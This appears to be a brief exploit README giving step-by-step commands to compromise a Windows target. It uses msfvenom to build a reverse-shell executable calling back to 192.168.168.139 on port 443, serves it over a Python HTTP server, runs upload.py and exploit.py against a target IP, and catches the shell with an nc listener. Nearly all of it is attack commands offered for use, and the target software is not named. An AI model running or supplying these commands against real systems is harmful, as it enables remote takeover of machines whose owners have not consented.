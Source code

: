 1. make revshell exe file
   
   ```
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.168.139 LPORT=443 -f exe > weinrev.exe
   ```
2. Run a python server on this directory
   ```
   python3 -m http.server 80
   ```
3. Edit upload.py at line 119 then run the command 
   ```
   python2 upload.py target_ip
   ```
4. wait a little bit for getting response in python server 
5. Run a nc for getting reverse shell
   ```
   nc -lnvp 443
   ```
6. Edit exploit.py at line 119 and run
   ```
   python2 exploit.py
   ```
